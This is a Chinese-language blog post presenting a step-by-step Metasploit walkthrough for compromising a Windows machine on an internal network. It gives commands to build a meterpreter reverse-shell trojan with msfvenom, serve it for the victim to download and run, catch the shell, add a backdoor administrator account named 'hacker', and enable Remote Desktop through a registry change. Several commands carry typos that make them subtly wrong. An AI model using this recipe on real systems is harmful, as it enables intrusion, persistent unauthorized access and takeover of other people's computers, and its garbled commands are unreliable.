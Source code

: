 ```yaml
---
layout:     post
title:      MSF 简单内网渗透
subtitle:   linux下利用Metasploit做一个简单的内网渗透
date:       2019-3-18
author:     陈建武
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```


> 正所谓前人栽树，后人乘凉。

# 前言
1.kali 终端运行 msfconsole

2.用MSF下的msfvenom来生成木马程序到根目录。

命令：msfenom -p /windows/meterpreter/preverse_tcp lhost=“这里写你的本机ip” lport=“这里写你的端口，注意！不要和已经开启的端口冲突。” -f exe >/muma.exe

3.开启一个简易web服务器。

命令：python SimpleHTTPServer 8080

4.用目标机的浏览器访问下载木马程序。

5.加载 exp。

命令：use  exploit/multi/handler

6.设置我们的payload。

命令：set /windows/meterpreter/preverse_tcp

set lhost “本机ip”

set lport “你刚才的端口”。

7.查看我们的设置。

命令：show options

8.开启监听。

命令：run

9.目标机器下载并点击我们的木马文件。

10.得到meterpreter，shell到目标的终端。

命令：shell

11.添加一个用户。

net user hacker 123.com /add

12.把创建的用户加入到管理员组。

net localgroup administrators hacker /add

13.打开目标3389端口。

命令：REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

14.kali 运行链接远程桌面的工具。

rdesktop “目标的ip”

15.完成。
